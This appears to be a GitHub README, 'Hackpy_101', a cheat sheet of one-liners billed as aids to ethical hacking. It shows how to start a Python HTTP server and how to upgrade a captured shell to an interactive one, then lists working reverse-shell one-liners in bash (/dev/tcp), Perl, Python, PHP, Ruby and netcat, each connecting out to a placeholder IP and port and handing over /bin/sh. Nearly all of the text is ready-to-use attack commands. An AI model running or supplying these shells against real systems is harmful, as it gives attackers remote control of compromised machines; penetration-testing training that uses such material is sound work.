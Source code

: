 # Hackpy_101
Contains Various one liner scripts of python to help you in the Ethical hacking.

**For HTTP SERVER**
Python2 :- python -m SimpleHTTPServer <port>
Python3 :- python -m  http.server <port>
To open a sever on specific IP we use -- bind 
For ex- python -m http.server port --bind <IP> 
If this doesnt work use python2 version.
--------------x-------x--------xx-------------xxx----------x------------------x-----------------xxx---------------------x---------------------xxxxx--------x-----------------------

**For Requesting a Interactive Shell in Python**
python -c 'import pty; pty.spawn("/bin/bash")'
This will upgrade a dumb shell to an interactive one
If this doesnt work for you then try doing this step wise 

# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
--------------x-------x--------xx-------------xxx----------x------------------x-----------------xxx---------------------x---------------------xxxxx--------x---------------------

**THIS IS WHAT YOU CALL A CONNECTOR TO A LISTENER**
THIS IS USED FOR REVERSE CONNECTIONS.
IF YOU DONT KNOW WHAT THIS MEANS --> "GOOGLE IT!!"
YOU CAN USE EITHER OF THE METHODS, GIVEN THAT THE SPECIFIC LANGUAGE IS INSTALLED IN YOUR SYSTEM
# BASH
bash -i >& /dev/tcp/IP/PORT 0>&1

# PERL
perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat
nc -e /bin/sh IP PORT
--------------x-------x--------xx-------------xxx----------x------------------x-----------------xxx---------------------x---------------------xxxxx--------x---------------------

